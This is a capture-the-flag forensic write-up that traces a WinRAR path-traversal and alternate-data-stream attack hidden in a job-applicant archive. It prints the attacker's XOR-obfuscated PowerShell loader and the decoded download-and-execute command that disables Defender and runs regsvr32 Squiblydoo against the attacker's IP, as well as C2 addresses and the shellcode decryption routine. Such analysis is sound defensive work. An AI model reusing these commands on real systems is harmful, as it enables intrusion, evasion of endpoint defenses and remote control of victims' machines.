# CVenom




Difficulty: **MEDIUM**

## Challenge scenario

It's hiring season at Engineers Spark, and HR analyst Mimi spends her afternoons reviewing candidate archives sent through the recruitment portal. Around 3 PM, she settles in for her end-of-day CV review. Three new submissions sit on her desktop. She extracts each one, opens the PDFs in Microsoft Edge, and moves on. Nothing looks unusual. At the end of her shift, she shuts down the workstation.

The next morning, minutes after she powers the machine back on, the IT security team flags unusual outbound connections from her workstation. Something happened yesterday. She didn't do anything unusual.

You are the forensic analyst. Reconstruct what happened, prove how the attacker got in, and follow the chain to the attacker's objective.

## Task 1: Identify the malicious file used as the initial infection vector. Provide its full path.

The challenge provided a C drive of the compromised system. From the scenario, I knew that one of those three CVs must contain something suspicious. Mimi used Microsoft Edge to open those PDFs, so I searched for those files in `HISTORY` database of Edge in `C\Users\someone\AppData\Local\Microsoft\Edge\User Data\Default\HISTORY` using SQLite DB Browser.



So I knew there exact location was `C:/Users/someone/Desktop/CVs`. 

Located to that directory, there are even archive files before being unrar, and I believe this was the key to find the answer.

```
luongdung@lngdun:/mnt/e/htb/Sherlock/CVenom/2026-08-14T103543_Handout/C/Users/someone/Desktop/CVs$ file *
Ayoub_Hedri:            directory
Ayoub_Hedri.rar:        RAR archive data, v5
Bayrem_Bane:            directory
Bayrem_Bane.rar:        RAR archive data, v5
Radhouane_Boufateh:     directory
Radhouane_Boufateh.rar: RAR archive data, v5
luongdung@lngdun:/mnt/e/htb/Sherlock/CVenom/2026-08-14T103543_Handout/C/Users/someone/Desktop/CVs$ tree -a
.
├── Ayoub_Hedri
│   └── CV_Ayoub_Hedri.pdf
├── Ayoub_Hedri.rar
├── Bayrem_Bane
│   └── Bayrem_Bane.pdf
├── Bayrem_Bane.rar
├── Radhouane_Boufateh
│   └── Radhouane_Boufateh.pdf
└── Radhouane_Boufateh.rar

4 directories, 6 files
```

Strings through those RAR files and I spotted this was interesting.

```
luongdung@lngdun:/mnt/e/htb/Sherlock/CVenom/2026-08-14T103543_Handout/C/Users/someone/Desktop/CVs$ strings -a *.rar
Rar!
CV_Ayoub_Hedri.pdf
PvEc"5
"BOg`
5(!/
i&Urj
rt[~=
oyZ3
M(w:
X/Tm
Z2#~F
WWK-
u3#k
Kj{Z
k%q(
?)("
O;y@
:..\..\..\..\..\..\..\..\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\EdgeUpdate.lnk
```

An obvious sign of Path Traversal, located to StartUp folder for auto-run after reboot, masquerading the legtimate process of Microsoft Edge. With this suspicion, I believed this was the answer of the question.

**ANSWER: C:\Users\someone\Desktop\CVs\Ayoub_Hedri.rar**

## Task 2: The attacker combined path traversal with a technique to hide a malicious file inside the initially delivered file's structure. What is this Windows file system feature called?

Back to the malicious Path Traversal, doing some Google search revealed this might exploiting CVE-2025-8088.





>The attack method used in these campaigns involves sending phishing emails with RAR attachments disguised as job applicants’ CVs. However, these archives actually contain malware hidden in Alternate Data Streams (ADS), allowing attackers to drop malicious payloads such as SnipBot, RustyClaw, or Mythic agents into system directories like the Windows Startup folder to establish persistence and maintain unauthorized access.

Well sound exactly true to this scenario right? I extracted that RAR file using 7z (since extracting a RAR archive may cause ADS to disappear because the extraction tool may discard unsupported streams, block malicious ADS paths, or extract them to a different location.) to confirm the existence of ADS.



There was a hidden Powershell command in ADS, confirmed my previous thought. But I'll leave the deobfuscation for later tasks.

**ANSWER: Alternate Data Streams**

## Task 3: What is the name and version of the vulnerable application that was used by the victim and facilitated the initial access entry point for the attacker?

Well I knew that was WinRaR, I also need its version. I found it in `SOFTWARE` registry, particularly here.



**ANSWER: WinRAR 7.11**

## Task 4: What is the CVE identifier for the vulnerability exploited?

**ANSWER: CVE-2025-8088**

## Task 5: What is the full path, including the filename, of the malicious file dropped for persistence?

It was the `EdgeUpdate.lnk` we saw previously in strings command.

**ANSWER: C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\EdgeUpdate.lnk**

## Task 6: What is the full path of the legitimate application whose component the malicious file was masquerading as?

The content of the Alternative Data Stream reveal the masqueraded application, which is `msedge.exe`

**ANSWER: C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe**

## Task 7: The malicious persistence file facilitates post-exploitation. What is the XOR key value used during the execution of a script that provides the attacker with remote execution while evading defenses on the endpoint?

Here's the full encrypted Powershell command.

```
$k=90;
$e='Ex8CchMIF3p9Mi4uKilgdXUoOy10PTMuMi84Lyk/KDk1NC4/NC50OTU3dSk0andqLSMjdR0/LikvPTsOPzQpMjV1NzszNHUpOyM1NDsoO3QqKWt9c2EJLjsoLncJNj8/Knp3KXpvYSg/PSksKGloenUpenU0enUvenUzYDIuLipgdXVrbWhrb2JrbGhtdS8qPjsuP3QpOS56KTkoNTgwdD42Ng==';
$b=[Convert]::FromBase64String($e);$d='';
foreach($x in $b){$d+=[char]($x-bxor$k)};
iex $d
```

Not much obfuscated, just Base64 decoded and XOR with 90 in decimal, which is 0x5A in hexadecimal.

**ANSWER: 0x5A**

## Task 8: What is the full remote URL of the script executed to bypass and disable defenses?

Decrypting the payload we have the full command.



**ANSWER: https://raw.githubusercontent.com/sn0-0wyy/GetsugaTensho/main/sayonara.ps1**

## Task 9: When did the defense evasion script ran to suppress security features on the endpoint?

For this task, I checked the `Microsoft-Windows-PowerShell%4Operational.evtx`.



Multiple command was executed to disable Defender, then add `Temp` and `AppData\LocalLow\Microsoft\CryptnetUrlCache` to ExclusionPath (not being detected by Windows Defender).

Its exact timestamp was in UTC+7, so the answer was

**ANSWER: 2026-08-14 10:19:11**

## Task 10: The script execution downloads an unconventional file to facilitate remote execution for the attacker. What is the remote IP address from where it is downloaded?

The full command after decrypt is

```
IEX(IRM 'https://raw.githubusercontent.com/sn0-0wyy/GetsugaTensho/main/sayonara.ps1');Start-Sleep -s 5;regsvr32 /s /n /u /i:http://1721581627/update.sct scrobj.dll
```

`1721581627` was the IP address, but it is Decimal IP. I converted it back to IPv4 format using Python.

```
>>> import ipaddress
>>> print(ipaddress.IPv4Address(1721581627))
102.157.64.59
```

**ANSWER: 102.157.64.59**

## Task 11: What is the name of the technique the attacker used in the previous question?

Some google for `scrobj.dll` revealed its technique.



**ANSWER: Squiblydoo**

## Task 12: During the final stage of the attack, the unconventional file drops a PE payload onto the system to establish remote shell access. What is the full remote URL from where the payload was fetched?

Remember two directory that was excluded from Windows Defender? That's the key of this task, but `Temp` directory was not provided, so I located to `AppData\LocalLow\Microsoft\CryptnetUrlCache`. Files downloaded will be cached here if it was installed by CryptoAPI or tools like `certutil.exe`, where as `./Content` cached the original files, and `./Metadata` stores metadata.

```
luongdung@lngdun:/mnt/e/htb/Sherlock/CVenom/2026-08-14T103543_Handout/C/Users/someone/AppData/LocalLow/Microsoft/CryptnetUrlCache/content$ file *
07CEF2F654E3ED6050FFC9B6EB844250_E6095CD2AECC9011BCD0D7B421356B17: data
26C212D9399727259664BDFCA073966E_912C3CA51DE6018A7BE4CA7BC64AAFCD: data
57C8EDB95DF3F0AD4EE2DC2B8CFD4157:                                  Microsoft Cabinet archive data, Windows 2000/XP setup, 4987 bytes, 1 file, at 0x2c last modified Sun, Sep 04 2025 20:23:24 +A "disallowedcert.stl", number 1, 1 datablock, 0x1 compression
6857DD8678A2C0A01463674D211A1A09:                                  Certificate, Version=3
71344B6AF035A29EF8737533CE450492:                                  PE32+ executable (DLL) (console) x86-64 (stripped to external PDB), for MS Windows, 3 sections
77EC63BDA74BD0D0E0426DC8F8008506:                                  Microsoft Cabinet archive data, Windows 2000/XP setup, 80043 bytes, 1 file, at 0x2c last modified Sun, Jun 18 2026 00:32:04 +A "authroot.stl", number 1, 7 datablocks, 0x1 compression
892580777767344DCAEF580FFA143EA6_06AA6C92E12381CACC311949FAA50FF1: data
892580777767344DCAEF580FFA143EA6_EF1B61DD3F93C58DBD0734F13C15C0F6: data
B76BE66D46C355931939D8CF818D03FD_30070D1E013A39CA7A94F919F7922FDF: data
B76BE66D46C355931939D8CF818D03FD_39DF7432E6EF50CDA9C936E29E7DA30D: data
B76BE66D46C355931939D8CF818D03FD_68DC46933CF3DE41CC968E0784D43DC3: data
B76BE66D46C355931939D8CF818D03FD_879AFEB08DCB012707582D902977FF92: data
D7833C286363AD25C70511661A83D581_87080482E227A81FEA3DE5A553C20422: data
DABA17F5E36CBE65640DD2FE24F104E7:                                  Certificate, Version=3, Serial=00a70e4a4c3482b77f
E2C6CBAF0AF08CF203BA74BF0D0AB6D5_49536AB5156BDD74EFF881D01C36A419: data
E2C6CBAF0AF08CF203BA74BF0D0AB6D5_EAF5D55D93603A879FA973006301F24F: data
F59A01A8B782D93EA6991BC172CEFFB1:                                  Certificate, Version=3
FB0D848F74F70BB2EAA93746D24D9749:                                  Microsoft Cabinet archive data, Windows 2000/XP setup, 7796 bytes, 1 file, at 0x2c last m
```

Only one executable, `71344B6AF035A29EF8737533CE450492`. I checked the `Metadata` folder for its URL downloaded.

```
luongdung@lngdun:/mnt/e/htb/Sherlock/CVenom/2026-08-14T103543_Handout/C/Users/someone/AppData/LocalLow/Microsoft/CryptnetUrlCache/metadata$ cat 71344B6AF035A29EF8737533CE450492
p N%k�`�+�( s:c+�http://102.157.64.59/msgedgeupdate.dll
```

`102.157.64.59` was the C2 server, confirming the answer for this question.

**ANSWER: http://102.157.64.59/msgedgeupdate.dll**

## Task 13: What is the SHA-256 hash of the C2 payload?

Easy one now.

```
luongdung@lngdun:/mnt/e/htb/Sherlock/CVenom/2026-08-14T103543_Handout/C/Users/someone/AppData/LocalLow/Microsoft/CryptnetUrlCache/content$ sha256sum 71344B6AF035A29EF8737533CE450492
df881a2b494660ed5051806eab733ab564e3ec26c3cf42272d728bf1906d8c19  71344B6AF035A29EF8737533CE450492
```

**ANSWER: df881a2b494660ed5051806eab733ab564e3ec26c3cf42272d728bf1906d8c19**

## Task 14: During the final stage, the C2 payload decrypts obfuscated shellcode. What is the XOR key used in the shellcode decryption?

Well reverse engineering again. Using Ghidra, I started with `Start` function, since there is no `Main` function.



Luckily, the XOR key appeared without any furthur reverse difficulty.

**ANSWER: 0xdead1899**

## Task 15: What is the full C2 address from where the attacker maintains their remote access?

Now we have to decrypt to read those shellcode. 

```
uVar4 = ((uint)puVar1[lVar3] >> 0xd |
         puVar1[lVar3] << 0x13) ^ 0xdead1899;

puVar1[lVar3] =
    uVar4 >> 0x18 |
    (uVar4 & 0xff0000) >> 8 |
    (uVar4 & 0xff00) << 8 |
    uVar4 << 0x18;
```

So bytes starting from `0x1F9FA4000`, each 4 bytes will be DWORD encrypted, Rotate Right 13 bits, XOR with 0xdead1899, then reverse those 4 bytes.

For instance, 

```
5c a4 6f b3

DWORD encrypted (simply reverse those bytes)

0xB36FA45C

then ROR13

0x22E59B7D

then XOR 0xdead1899

0xFC4883E4

then BSWAP

0xE48348FC

store in Litte Indian

FC 48 83 E4
```

These are recipes I used in Cyberchef for decryption, after taking exactly 512 bytes starting from `0x1F9FA4000`



Remove the `To Hex` recipe, I exported the raw shellcode file. I loaded it into Ghidra and it decompiled into another pseudo C code.

After times reading those Assembly, I spotted this command.



```
MOV        R12 ,0x3b409d66c4760002
PUSH       R12
```

This value constructs a sockaddr_in structure in memory. Where as `0x3b409d66c476` in decimal is `102.157.64.59:30404`.

```
Explanation:

76c4 -> 30404 in decimal (Port)

66.9d.40.3b -> 102.157.64.59 in decimal (Ipv4)
```

**ANSWER: 102.157.64.59:30404**

## Task 16: After establishing a C2 connection, the payload is deleted as part of the attack's cleanup. How long (in seconds) was the C2 payload active before it was deleted?

After an exhauting task, this was actually an easy one. I parsed the `$J` using `MFTECmd.exe`, it stores the timestamp when a file was created, and deleted.

But the `msgedgeupdate.dll` appears to be 678 seconds long running time was not the correct answer.



Right after this entry (19315) is the entry 19316 pointing to `msedgeupdate.dll`, with 537 seconds running.

